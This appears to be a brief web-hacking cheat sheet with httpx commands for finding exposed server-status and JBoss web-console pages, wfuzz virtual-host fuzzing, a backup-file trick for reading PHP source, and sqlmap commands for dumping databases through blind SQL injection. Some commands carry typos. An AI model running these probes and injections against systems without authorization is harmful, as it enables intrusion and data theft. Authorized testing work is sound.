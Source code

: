
### Information Disclosures
> Install httpx
```sh
cat host.txt | httpx -path //server-status?full=true -status-code -conten-length
```
```sh
cat host.txt | httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -path /web-console/ -status-code -content-length
```
---
***fuzz***
- use wfuzz
```sh
wfuzz -hc 403 -c -w enormousdns.txt -H "HOST:FUZZ.abc.com" abc.com
```
---
***Get source code***
```js
site.com/file.php  ====> 403
site.com/file.php~  ====> 200 ok <you will get source_code>
```
---
### SQL Injection
1. Found Blind SQL Injection 
2. use .sqlmap -r req -p vulns --dbs
3. if the backend db is firebird and if you can't retrive dbname ot table
4. change payload to -r req -p vuln--level 3 --risk 3 --thread 8 --dbms Firebird --tables.

